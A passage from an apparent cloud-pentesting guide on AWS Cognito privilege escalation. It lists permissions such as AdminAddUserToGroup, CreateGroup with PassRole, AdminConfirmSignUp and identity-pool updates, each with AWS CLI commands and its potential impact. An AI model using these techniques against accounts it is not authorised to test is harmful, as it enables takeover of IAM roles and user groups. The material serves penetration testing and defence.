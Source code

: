 ```bash
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

It's also possible to **abuse this permission to allow basic auth**:

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```

**Potential Impact**: Compromise the configured authenticated IAM role inside the identity pool.

### `cognito-idp:AdminAddUserToGroup`

This permission allows to **add a Cognito user to a Cognito group**, therefore an attacker could abuse this permission to add an user under his control to other groups with **better** privileges or **different IAM roles**:

```bash
aws cognito-idp admin-add-user-to-group \
    --user-pool-id <value> \
    --username <value> \
    --group-name <value>
```

**Potential Impact:** Privesc to other Cognito groups and IAM roles attached to User Pool Groups.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

An attacker with these permissions could **create/update groups** with **every IAM role that can be used by a compromised Cognito Identity Provider** and make a compromised user part of the group, accessing all those roles:

{% code overflow="wrap" %}
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
{% endcode %}

**Potential Impact:** Privesc to other Cognito IAM roles.

### `cognito-idp:AdminConfirmSignUp`

This permission allows to **verify a signup**. By default anyone can sign in Cognito applications, if that is left, a user could create an account with any data and verify it with this permission.

```bash
aws cognito-idp admin-confirm-sign-up \
    --user-pool-id <value> \
    --username <value>
```
